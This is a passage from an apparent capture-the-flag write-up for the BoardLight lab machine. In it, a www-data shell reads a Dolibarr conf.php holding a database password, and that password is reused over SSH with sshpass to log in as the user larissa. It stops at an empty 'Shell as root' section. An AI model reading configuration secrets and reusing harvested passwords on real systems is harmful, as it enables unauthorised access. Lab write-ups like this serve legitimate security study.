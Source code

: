 ```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls
conf.php  conf.php.example  conf.php.old
```

`conf.php` contains bunch of content, But the most interesting one is db password.

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
<SNIP>
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
<SNIP>
//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

The password `serverfun2$2023!!` works for `larissa` user, both over `SSH` and `su`.

### SSH

![](https://dm7500.github.io/assets/htb-swagshop/meme.php.png)

```
➜  ~ sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$ wc -c user.txt
33 user.txt
```

## Shell as root

**_Any Hint for ROOT SIR?_**
